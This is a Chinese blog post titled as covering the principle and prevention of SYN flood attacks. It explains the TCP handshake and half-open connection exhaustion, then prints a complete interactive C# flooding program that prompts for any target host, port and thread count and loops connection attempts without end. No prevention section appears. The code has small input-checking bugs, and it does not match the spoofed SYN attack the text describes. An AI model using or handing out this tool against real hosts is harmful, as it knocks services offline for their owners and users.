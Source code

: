 ```yaml
---
author: TheC
comments: true
date: 2012-01-10 12:29:29+00:00
layout: post
slug: synflood
title: SynFlood的原理与防范
wordpress_id: 206
categories:
- ACFUN
---
```


SYN Flood是当前最流行的针对服务器的方式之一，它是利用TCP协议缺陷，发送大量伪造的TCP连接请求，从而使得被攻击方资源耗尽的攻击方式，最终导致服务器无法提供正常的服务。

TCP与UDP不同，TCP是基于连接的协议，为了在服务端和客户端之间传送TCP数据，必须先建立一个虚拟连接，也就是TCP连接。也就是我们经常听说的TCP协议中的三次握手（Three-way Handshake），建立TCP连接的标准过程如下：

第一次握手：建立连接时，客户端发送syn包(syn=j)到服务器，并进入SYN_SEND状态，等待服务器确认；
第二次握手：服务器收到syn包，必须确认客户的SYN（ack=j+1），同时自己也发送一个SYN包（syn=k），即SYN+ACK包，此时服务器进入SYN_RECV状态；
第三次握手：客户端收到服务器的SYN＋ACK包，向服务器发送确认包ACK(ack=k+1)，此包发送完毕，客户端 和服务器进入ESTABLISHED状态，完成三次握手。
<!-- more -->
但是在实际中，我们并不能保证每次握手都成功，服务器也不能立即处理掉来握手的每一个用户。于是在三次握手协议中，服务器维护一个未连接队列，该队列为每个客户端的SYN包（syn=j）开设一个条目，该条目表明服务器已收到SYN包，并向客户发出确认，正在等待客户的确认包。这些条目所标识的连接在服务器处于Syn_RECV状态，当服务器收到客户的确认包时，删除该条目，服务器进入 ESTABLISHED状态。
你也许会问，假如我在握手过程中，网络条件变坏突然丢包怎么办？服务器发送完SYN－ACK包，如果未收到客户确认包，服务器进行首次重传，等待一段时间仍未收到客户确认包，进行第二次重传，如果重传次数超过系统规定的最大重传次数，系统将该连接信息从半连接队列中删除。
OK问题出来了。第二次握手结束，第三次握手是客户端发起的，什么时候向服务器确认，客户端定的，假如客户端不向服务器发送ACK包，那么服务器将一直等待(SYN_RECV)，一般来说这个时间是30秒左右一个用户出现异常导致服务器的一个线程等待半分钟并不会对服务器端造成什么大的影响，但如果有大量的等待丢失的情况发生，服务器端将为了维护一个非常大的半连接请求而消耗非常多的资源。大量的数据保存并遍历也会消耗非常多的CPU时间和内存，再加上服务器端不断对列表中的IP进行SYN+ACK的重试，服务器的负载将会变得非常巨大。如果服务器的TCP/IP栈不够强大，最后的结果往往是 堆栈溢出崩溃。相对于攻击数据流，正常的用户请求就显得十分渺小，服务器疲于处理攻击者伪造的TCP连接请求而无暇理睬客户的正常请求，此时从正常客户会表现为打开页面缓慢或服务器无响应，这种情况就是我们常说的服务器端SYN Flood攻击。

下面一段C#程序演示了如何进行Syn攻击：
{% highlight csharp %}
namespace acfun.Lurnar.TestAPP
{
    using System;
    using System.Net;
    using System.Net.Sockets;
    using System.Threading;

    internal class SynFlood
    {
        private static ThreadStart[] FloodingJob;
        private static Thread[] FloodingThread;
        public static string Host;
        private static IPEndPoint ipEo;
        public static int Port = 80;
        private static SendSyn[] SynClass;
        public static int SynSockets = 80;
        public static int Threads = 50;

        private static int string2int(string str)
        {
            int result = -1;
            if (int.TryParse(str, out result)) return result;
            else return -1;

        }
        public static void Main()
        {
            Console.WriteLine("端口？");
            string temp = null;
            while (temp == null)
            {
                temp = Console.ReadLine();
                if (temp != null)
                {
                    Port = string2int(temp);
                    if (Port == -1)
                    {
                        Port = 80;
                        temp = null;
                    }
                }
            }
            temp = null;
            Console.WriteLine("Syn端口？");
            while (temp == null)
            {
                temp = Console.ReadLine();
                if (temp != null)
                {
                    SynSockets = string2int(temp);
                    if (Port == -1)
                    {
                        SynSockets = 80;
                        temp = null;
                    }
                }
            }
            temp = null;
            Console.WriteLine("线程数？");
            while (temp == null)
            {
                temp = Console.ReadLine();
                if (temp != null)
                {
                    Threads = string2int(temp);
                    if (Port == -1)
                    {
                        Threads = 200;
                        temp = null;
                    }
                }
            }
            Console.WriteLine("域名或IP地址？");
            while (Host == null)
            {
                Host = Console.ReadLine();
                try
                {
                    ipEo = new IPEndPoint(Dns.GetHostEntry(Host).AddressList[0], Port);
                }
                catch
                {
                    try
                    {
                        ipEo = new IPEndPoint(IPAddress.Parse(Host), Port);
                    }
                    catch
                    {
                        Host = null;
                    }
                }
            }
            FloodingThread = new Thread[Threads];
            FloodingJob = new ThreadStart[Threads];
            SynClass = new SendSyn[Threads];
            for (int i = 0; i < Threads; i++)
            {
                SynClass[i] = new SendSyn(ipEo, SynSockets);
                FloodingJob[i] = new ThreadStart(SynClass[i].Send);
                FloodingThread[i] = new Thread(FloodingJob[i]);
                Console.WriteLine("初始化线程[" + i.ToString() + "]" );
                FloodingThread[i].Start();
            }
        }

        public static void StopSynFlood()
        {
            for (int i = 0; i < Threads; i++)
            {
                try
                {
                    FloodingThread[i].Abort();
                }
                catch
                {
                }
            }
        }

        private class SendSyn
        {
            private IPEndPoint ipEo;
            private Socket[] Sock;
            private int SynSockets;

            public SendSyn(IPEndPoint ipEo, int SynSockets)
            {
                this.ipEo = ipEo;
                this.SynSockets = SynSockets;
            }

            public void OnConnect(IAsyncResult ar)
            {
            }

            public void Send()
            {
                int num;
            Label_0001: ;
                try
                {
                    this.Sock = new Socket[this.SynSockets];
                    for (num = 0; num < this.SynSockets; num++)
                    {
                        this.Sock[num] = new Socket(this.ipEo.AddressFamily, SocketType.Stream, ProtocolType.Tcp);
                        this.Sock[num].Blocking = false;
                        AsyncCallback callback = new AsyncCallback(this.OnConnect);
                        this.Sock[num].BeginConnect(this.ipEo, callback, this.Sock[num]);
                    }
                    Thread.Sleep(100);
                    for (num = 0; num < this.SynSockets; num++)
                    {
                        if (this.Sock[num].Connected)
                        {
                            this.Sock[num].Disconnect(false);
                        }
                        this.Sock[num].Close();
                        this.Sock[num] = null;
                    }
                    this.Sock = null;
                    goto Label_0001;
                }
                catch
                {
                    for (num = 0; num < this.SynSockets; num++)
                    {
                        try
                        {
                            if (this.Sock[num].Connected)
                            {
                                this.Sock[num].Disconnect(false);
                            }
                            this.Sock[num].Close();
                            this.Sock[num] = null;
                        }
                        catch
                        {
                        }
                    }
                    goto Label_0001;
                }
            }
        }
    }
}
{% endhighlight %}
